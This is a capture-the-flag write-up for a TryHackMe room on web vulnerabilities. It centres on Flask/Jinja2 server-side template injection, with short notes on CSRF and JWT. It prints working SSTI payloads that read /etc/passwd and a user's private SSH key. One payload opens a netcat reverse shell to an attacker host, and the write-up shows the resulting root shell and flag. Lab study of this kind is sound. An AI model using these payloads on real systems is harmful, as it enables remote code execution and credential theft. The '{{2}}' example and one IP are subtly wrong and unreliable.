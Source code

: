 # TryHackMe: ZTH Obscure Web Vulns (Writeup)

## SSTI

Server side template injection.
Users server side templating engine.
For example, Flask server.

### Manual exploitation

1. How would a hacker(you :) ) cat out /etc/passwd on the server(using cat with the rce payload)

```python
{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
```

2. What about reading in the contents of the user test's private ssh key.(use the read file one not the rce one)

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]()('/home/test/.ssh/id_rsa').read()}} 
```

### Automated exploitation

We can use `tplmap` to find SSTI vulns.

1. How would I cat out /etc/passwd using tplmap on the ip:port combo 10.10.10.10:5000, with the vulnerable param "noot".

```shell
tplmap -u http://10.10.10.10.:5000/ -d 'noot' --os-cmd *cat /etc/passwd*
```

### Challenge

After deploying the machine.

#### Test
```python
## Test injection
{{2}}
## Outputs 4
```

#### Exploit

```python
# Find current directory
{{config.__class__.__init__.__globals__['os'].popen('pwd').read()}}
```
```python
# LS current directory
{{config.__class__.__init__.__globals__['os'].popen('ls -ah').read()}}
```
```python
# Get reverse shell (netcat), requires listener on local
{{config.__class__.__init__.__globals__['os'].popen('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 10.11.8.219 4444 >/tmp/f').read()}}
```
```shell
## On local listener
kali@kali:~/Desktop/repos/ctf/try-hack-me/anonymous$ nc -lvp 4444                           
listening on [any] 4444 ...
10.10.81.67: inverse host lookup failed: Unknown host
connect to [10.11.8.219] from (UNKNOWN) [10.10.81.67] 42936
/bin/sh: 0: can't access tty; job control turned off
# bash
whoami
root
```
```shell
## get the flag
cd /

ls -lah | grep flag
total 2.1G
-rwxrwxrwx   1 root root    8 Apr  6 19:52 flag

cat flag
cooctus
```

## CSRF

### Manual
Can test CSRF forgery by capturing requests, and making forms on other sites that replicate a POST, GET, .etc, request.

### Automated
Can use `xsrfprobe` to test for CSRF vulns. 

```shell
## Generate POC
xsrfprobe HOST --malicious
```

## JWT

Tend to be BASE64 encoded.

JWT headers look like
```json
{"typ":"JWT","alg":"RS256"}
```


